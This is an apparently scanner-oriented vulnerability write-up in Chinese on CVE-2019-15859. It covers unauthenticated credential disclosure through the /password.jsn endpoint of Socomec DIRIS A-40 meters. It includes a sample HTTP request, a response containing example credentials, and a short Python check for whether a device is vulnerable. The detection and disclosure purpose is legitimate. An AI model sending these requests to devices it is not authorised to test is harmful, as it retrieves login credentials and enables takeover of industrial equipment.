

# Socomec DIRIS A-40 设备密码泄露漏洞（CVE-2019-15859）

## 漏洞简介
Socomec DIRIS A-40 设备（固件版本 48250501 之前）存在密码泄露漏洞。攻击者可通过未授权访问 `/password.jsn` 接口，直接获取设备的用户名和密码，进而实现完全控制。

## 影响范围
- 受影响产品：Socomec DIRIS A-40（固件 48250501 之前）
- CPE: `cpe:2.3:o:socomec:diris_a-40_firmware:*:*:*:*:*:*:*:*`

## 漏洞原理
Web 接口 `/password.jsn` 未做访问控制，攻击者可直接访问并获取包含明文用户名和密码的 JSON 数据，导致敏感信息泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问设备的 `/password.jsn` 接口。
2. 响应返回包含用户名和密码的 JSON 数据。
3. 攻击者据此可登录设备，进行未授权操作。

## 探测原理与流程
### 请求包示例
```http
GET /password.jsn HTTP/1.1
Host: target.com
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: text/json

{
  "username": "admin",
  "password": "admin123"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `text/json`。
- 响应体中包含 `username` 和 `password` 字段。

### 伪代码
```python
resp = requests.get('http://target.com/password.jsn')
if resp.status_code == 200 and resp.headers.get('Content-Type') == 'text/json' and all(x in resp.text for x in ["username", "password"]):
    print('存在密码泄露漏洞')
```

### Mermaid 流程图


## 参考链接
- [Full Disclosure 邮件列表](https://seclists.org/fulldisclosure/2019/Oct/10)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2019-15859)
- [Packet Storm Security](http://packetstormsecurity.com/files/154764/Socomec-DIRIS-A-40-Password-Disclosure.html)
- [Socomec 官方产品页](https://www.socomec.com/single-circuit-multifunction-meters_en.html) 